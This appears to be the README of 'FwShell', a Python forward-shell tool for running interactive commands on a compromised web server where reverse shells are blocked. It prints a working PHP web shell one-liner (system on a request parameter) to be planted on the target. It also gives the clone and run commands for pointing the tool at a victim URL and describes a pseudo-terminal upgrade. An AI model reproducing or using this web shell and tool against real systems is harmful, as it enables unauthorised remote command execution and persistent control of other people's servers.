

# FwShell - A Simple Forward Shell

<div align = center>


&ensp;[<kbd> <br> Description <br> </kbd>](#-description)&ensp;
&ensp;[<kbd> <br> Features <br> </kbd>](#-features)&ensp;
&ensp;[<kbd> <br> Usage <br> </kbd>](#-usage)&ensp;
&ensp;[<kbd> <br> Contribution <br> </kbd>](#-contributions)&ensp;
<br></div>

## 👾 Description

This script establishes a remote shell session that allows the execution of commands on the server interactively, handling output and state dynamically. Since some servers don't allow to get $reserse~shell$ due to their configuration, this script is a friendly alternative.

The remote server must be configured to allow command execution or simply get a *PHP* structure loaded on the compromised server.

```php
<?php
    system($_REQUEST['cmd']); # use too, $_GET
?>
```

Take into account the path to the compromised server, where the bug or our *PHP* script is located.

## 🎉 Features:
- **Remotely execute commands:** Sends shell commands to the remote server and receives the results in real time.

- **Interactive shell:** Allows you to interact with the remote system similar to a local terminal.

- **Pseudo-terminal management:** You can use a pseudo-terminal (script /dev/null -c /bin/bash) to keep the session interactive.

- **Command history management:** The script keeps a history of the commands executed during the session.

- **Configurable execution intervals:** The interval between command executions can be adjusted.

- **Session termination:** At the end of the session, the scriptdeletes temporary files.

## 💻 Usage

First download the code

```bash
git clone --no-checkout http://github.com/ch4rum/FwShell.git
```
To run the script, you can use the following command:

```bash
python3 main.py -u <URL> -i <interval>
```

* `-u` o `--url` \<URL> is the Url of the remote server.

* `-i` o `--interval` \<interval> is an optional parameter that sets the interval (in seconds) between command execution. If not specified, the default value is $0.5$ seconds.

To exit the session, you can run `ctrl + c`.

### 🛠️ Requeriments

- Python 3
- Libraries:
  - `requests`
  - `argparse`
  - `readline`
  - `os`
  - `time`
  - `signal`
  - `sys`
  - `os`
  - `threading`
  - `base64`
  - `random`

You can install the neccesary dependencies by running.

```bash
# In windows & some linux
pip install requests 

# In Arch and some derivate
sudo pacman -S --noconfirm python-requests
```

## 📧 Contributions

If you want to contribute to this little script, feel free to make a fork and send your improvements via pull requests.
